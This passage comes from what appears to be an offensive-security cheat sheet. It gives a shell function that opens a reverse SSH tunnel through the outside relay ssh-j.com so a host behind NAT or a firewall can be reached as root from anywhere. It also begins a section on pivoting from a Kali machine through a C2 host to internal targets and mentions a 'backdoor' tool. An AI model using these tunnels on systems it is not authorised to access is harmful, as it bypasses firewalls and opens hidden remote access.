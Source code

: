 The others configuring server.org:1080 as their SOCKS4/5 proxy. They can now connect to *any* computer on *any port* that your computer has access to. This includes access to computers behind your firewall that are on your local network. An alternative and without the need for a server is to use [gs-netcat](#backdoor-network).

<a id="ssh-j"></a>
**2.v SSH to a host behind NAT**

[ssh-j.com](http://ssh-j.com) provides a great relay service: To access a host behind NAT/Firewall (via SSH).

On the host behind NAT: Create a reverse SSH tunnel to [ssh-j.com](http://ssh-j.com) like so:
```sh
## Cut & Paste on the host behind NAT.
sshj()
{
   local pw
   pw=${1,,}
   [[ -z $pw ]] && { pw=$(head -c64 </dev/urandom | base64 | tr -d -c a-z0-9); pw=${pw:0:12}; }
   echo "Press Ctrl-C to stop this tunnel."
   echo -e "To ssh to ${USER:-root}@${2:-127.0.0.1}:${3:-22} type: \e[0;36mssh -J ${pw}@ssh-j.com ${USER:-root}@${pw}\e[0m"
   ssh -o StrictHostKeyChecking=accept-new -o ServerAliveInterval=30 -o ExitOnForwardFailure=yes ${pw}@ssh-j.com -N -R ${pw}:22:${2:-0}:${3:-22}
}

sshj                                 # Generates a random tunnel ID [e.g. 5dmxf27tl4kx] and keeps the tunnel connected
sshj foobarblahblub                  # Creates tunnel to 127.0.0.1:22 with specific tunnel ID
sshj foobarblahblub 192.168.0.1 2222 # Tunnel to host 192.168.0.1:2222 on the LAN
```

Then use this command from anywhere else in the world to connect as 'root' to 'foobarblahblub' (the host behind the NAT):
```sh
ssh -J foobarblahblub@ssh-j.com root@foobarblahblub
```
The ssh connection goes via ssh-j.com into the reverse tunnel to the host behind NAT. The traffic is end-2-end encrypted and ssh-j.com can not see the content.


<a id="ssh-pj"></a>
**2.vi SSH pivoting to multiple servers**

SSH ProxyJump can save you a lot of time and hassle when working with remote servers. Let's assume the scenario:  

Our workstation is $local-kali and we like to SSH into $target-host. There is no direct connection between our workstation and $target-host. Our workstation can only reach $C2. $C2 can reach $internal-jumphost (via internal eth1) and $internal-jumphost can reach the final $target-host via eth2.
```sh
          $local-kali       -> $C2            -> $internal-jumphost    -> $target-host
eth0      192.168.8.160      10.25.237.119             
eth1                         192.168.5.130       192.168.5.135
eth2                                             172.16.2.120             172.16.2.121
```

